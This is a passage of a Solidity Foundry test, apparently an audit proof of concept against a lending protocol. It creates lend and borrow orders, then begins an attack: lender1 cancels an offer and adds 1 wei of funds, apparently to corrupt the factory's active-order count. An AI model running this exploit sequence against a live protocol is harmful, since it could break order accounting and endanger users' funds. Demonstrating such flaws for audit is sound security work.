 ```solidity  
            _minDuration: 86400,  
            _acceptedCollaterals: acceptedCollaterals,  
            _principle: wETH,  
            _oracles_Collateral: oraclesCollateral,  
            _ratio: ratioLenders,  
            _oracleID_Principle: address(0x0),  
            _startedLendingAmount: 5e18  
        });  
  
        vm.startPrank(lender3);  
        wETHContract.approve(address(DLOFactoryContract), 5 ether);  
  
        address lendOffer3 = DLOFactoryContract.createLendOrder({  
            _perpetual: false,  
            _oraclesActivated: oraclesActivatedLenders,  
            _lonelyLender: false,  
            _LTVs: ltvsLenders,  
            _apr: 1000,  
            _maxDuration: 8640000,  
            _minDuration: 86400,  
            _acceptedCollaterals: acceptedCollaterals,  
            _principle: wETH,  
            _oracles_Collateral: oraclesCollateral,  
            _ratio: ratioLenders,  
            _oracleID_Principle: address(0x0),  
            _startedLendingAmount: 5e18  
        });  
  
        vm.stopPrank();  
  
        // Create a borrow offer  
        USDCContract.mint(borrower, 10e18);  
        vm.startPrank(borrower);  
        USDCContract.approve(address(DBOFactoryContract), 100e18);  
  
        address borrowOrderAddress = DBOFactoryContract.createBorrowOrder({  
            _oraclesActivated: oraclesActivated,  
            _LTVs: ltvs,  
            _maxInterestRate: 1400,  
            _duration: 864000,  
            _acceptedPrinciples: acceptedPrinciples,  
            _collateral: USDC,  
            _isNFT: false,  
            _receiptID: 0,  
            _oracleIDS_Principles: oraclesPrinciples,  
            _ratio: ratio,  
            _oracleID_Collateral: address(0x0),  
            _collateralAmount: 10e18  
        });  
  
        vm.stopPrank();  
  
        // Lender1 begins the attack  
        // check DLOFactory::activeOrdersCount == 3  
        assertEq(DLOFactoryContract.activeOrdersCount(), 3);  
  
        // lender1 cancels the offer -> DLOFactory::activeOrdersCount == 2  
        vm.startPrank(lender1);  
        DLOImplementation(lendOffer1).cancelOffer();  
  
        // addFunds (1 wei)  
        wETHContract.approve(lendOffer1, 3);  
        DLOImplementation(lendOffer1).addFunds(1);  
```